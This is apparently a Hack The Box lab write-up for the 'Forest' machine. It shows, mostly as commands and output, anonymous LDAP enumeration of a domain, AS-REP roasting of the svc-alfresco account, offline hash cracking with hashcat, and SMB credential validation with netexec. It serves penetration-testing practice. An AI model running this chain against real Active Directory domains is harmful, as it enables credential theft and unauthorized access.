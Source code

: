 Appended the newly discovered hostname and domain to /etc/hosts.

```bash
echo -e "10.129.95.210\thtb.local FOREST.htb.local" | sudo tee -a /etc/hosts
10.129.95.210   htb.local FOREST.htb.local
```

**LDAP anonymous bind** is enabled, meaning that we can enumerate the domain via LDAP queries.

```
ldapsearch -x -H ldap://10.129.95.210 -b 'DC=htb,DC=local' "(ObjectClass=user)" | grep -i samaccountname 
sAMAccountName: Guest
sAMAccountName: DefaultAccount
sAMAccountName: FOREST$
sAMAccountName: EXCH01$
sAMAccountName: $331000-VK4ADACQNUCA
sAMAccountName: SM_2c8eef0a09b545acb
sAMAccountName: SM_ca8c2ed5bdab4dc9b
...
```

# Exploitation

Trying common AD attacks reveals a user called ‘svc-alfresco’ that is vulnerable to **AS-REP roasting**.

```
impacket-GetNPUsers htb.local/ -request -dc-ip 10.129.95.210
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-05-09 17:45:45.597784  2019-09-23 12:09:47.931194  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:46f8adfb35eb30...
```

It was a weak password so we could crack it.

```
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:46f8adfb35eb30...:<REDACTED>
```

NetExec confirms that the credentials are valid.

```
netexec smb 10.129.95.210 -u svc-alfresco -p <REDACTED> --shares
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:<REDACTED> 
SMB         10.129.95.210   445    FOREST           [*] Enumerated shares
SMB         10.129.95.210   445    FOREST           Share           Permissions     Remark
SMB         10.129.95.210   445    FOREST           -----           -----------     ------
SMB         10.129.95.210   445    FOREST           ADMIN$                          Remote Admin
SMB         10.129.95.210   445    FOREST           C$                              Default share
SMB         10.129.95.210   445    FOREST           IPC$                            Remote IPC
SMB         10.129.95.210   445    FOREST           NETLOGON        READ            Logon server share 
SMB         10.129.95.210   445    FOREST           SYSVOL          READ            Logon server share
```
